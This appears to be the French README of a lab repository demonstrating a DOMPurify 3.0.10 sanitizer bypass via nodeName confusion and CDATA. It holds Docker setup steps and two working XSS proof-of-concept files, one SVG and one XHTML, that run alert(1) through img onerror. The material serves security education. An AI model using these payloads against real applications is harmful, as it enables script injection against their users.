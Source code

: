 # Dompurify 3.0.10 bypass - Confusion nodeName and CDATA

## Lien vers l'article complet

> Un article reprenant le travail de RyotaK concernant le bypass de Dompurify dans sa version 3.0.10.

[https://sharpforce.gitbook.io/cybersecurity/mes-articles/2024/mai/dompurify-3.0.10-bypass-confusion-nodename-and-cdata](https://sharpforce.gitbook.io/cybersecurity/mes-articles/2024/mai/dompurify-3.0.10-bypass-confusion-nodename-and-cdata)

## Installation

```
docker build -t dompurify-3.0.10-bypass .
docker run -p 3000:3000 --name dompurify-3.0.10-bypass dompurify-3.0.10-bypass
```

![image](https://github.com/Sharpforce/cybersecurity-code/assets/6013418/75be9d65-91ce-4fc4-b561-9c6be3699627)

## Description

L'application permet de téléverser des fichiers au format HTML, SVG ou XHTML, mais la consultation de ces fichiers, bien que possible, est restreinte par une politique CSP. L'inclusion d'un tel fichier, assainie par Dompurify, au sein de la page principale, permet toutefois l'exploitation du bypass et l'exécution de code Javascript.

## Exploitation

### Fichier HTML

La vulnérabilité est exploitable seulement lorsque le noeud est de type XML. L'inclusion d'un fichier HTML permet de confirmer le bon assainissement de la part de Dompurify lorsque le noeud est de type HTML.

### Fichier SVG 

Le fichier SVG suivant permet l'exploitation du bypass :
```SVG
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.0//EN" "http://www.w3.org/TR/2001/REC-SVG-20010904/DTD/svg10.dtd">
<svg xmlns="http://www.w3.org/2000/svg" width="100" height="100" viewBox="0 0 100 100">
  <rect width="50" height="50" fill="green" />
  <?img > <img src=x onerror="alert(1)"> ?>
</svg>
```
### Fichier XHTML

Le fichier XHTML suivant permet l'exploitation du bypass :
```HTML
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Strict//EN" "http://www.w3.org/TR/xhtml1/DTD/xhtml1-strict.dtd">
<html xmlns="http://www.w3.org/1999/xhtml">
<head>
    <title>Exemple de document XHTML</title>
</head>
<body>
    <h1>Document XHTML</h1>
    <p>Exploitation de Dompurify 3.0.10.</p>
    <![CDATA[ ><img src onerror=alert(1) ]]>
</body>
</html>
```

## Démo

![](https://github.com/Sharpforce/cybersecurity-code/blob/main/dompurify-3.0.10-bypass-confusion-nodename-and-cdata/demo/demo.gif)

## Disclaimer

Cet outil est destiné uniquement à des fins éducatives et doit être utilisé uniquement dans des environnements de tests de pénétration autorisés. L'accès ou l'utilisation non autorisés de systèmes que vous ne possédez pas est illégal. L'auteur n'est pas responsable de toute utilisation abusive de cet outil.

## License

Ce projet est sous licence MIT.